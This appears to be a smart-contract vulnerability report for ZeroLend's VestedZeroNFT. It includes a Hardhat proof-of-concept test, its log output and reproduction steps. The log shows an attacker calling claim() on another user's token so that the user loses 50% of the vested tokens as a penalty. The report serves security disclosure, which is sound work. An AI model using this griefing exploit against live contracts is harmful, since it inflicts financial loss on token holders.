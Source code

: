 ```typescript
    console.log("Zero balance of Ant", await zero.balanceOf(ant.address));
    console.log("Zero balance of vestZeroNFT contract", await zero.balanceOf(vest.target));
    let lastTokenId = await vest.lastTokenId();
    console.log("Ant address: ", ant.address);
    console.log("The hacker call the claim function of the vestZeroNFT contract to claim tokenID of Ant"); 
    console.log("The address of the owner of the TokenId: ", await vest.ownerOf(lastTokenId));
    console.log("Zero balance of StakingBonus before the attack", await zero.balanceOf(stakingBonus.target));
    await vest.connect(attacker).claim(lastTokenId); 
    console.log("Zero balance of Ant after griefing attack", await zero.balanceOf(ant.address));
    console.log("Zero balance of vestZeroNFT after attack", await zero.balanceOf(vest.target));
    console.log("Zero balance of StakingBonus before the attack", await zero.balanceOf(stakingBonus.target));
    console.log("The unclaimed amount of the tokenID", await vest.unclaimed(lastTokenId));

  });
```

Test Log: https://drive.google.com/file/d/1oRfOksMKoIDuJzXbGlB-FcXaxta9lX9b/view?usp=sharing

```
Mint a VestedZeroNFT for Ant by calling mint() function of VestedZeroNFT contract
Zero balance of Ant 0n
Zero balance of vestZeroNFT contract 20000000000000000000n
Ant address:  0x70997970C51812dc3A010C7d01b50e0d17dc79C8
The hacker call the claim function of the vestZeroNFT contract to claim tokenID of Ant
The address of the owner of the TokenId:  0x70997970C51812dc3A010C7d01b50e0d17dc79C8
Zero balance of StakingBonus before the attack 0n
Zero balance of Ant after griefing attack 10000000000000000000n
Zero balance of vestZeroNFT after attack 0n
Zero balance of StakingBonus before the attack 10000000000000000000n
The unclaimed amount of the tokenID 0n
    ✔ Griefing attack to cause users to loose zero token (106ms)
```

So when mint for the user Ant, 20 Zero is spent. 
So here the attacker call the claim function for the tokenId of Ant. 
Now after claim, Ant has received only 10 Zero and the unclaimed amount is 0. 
10 Zero is sent to StakingBonus contract. 
So Ant lost 10 Zero token, means 50% as the penalty. 

Test POC code: 

Step 1: 
First clone the governance repository: 
```
git clone https://github.com/zerolend/governance.git
```

Step2: Apply Git patch file

Bug3_diff.patch link: https://drive.google.com/file/d/1RDt9VaiWVZfa9e287mJHU7HxGZQ2QbzF/view?usp=sharing

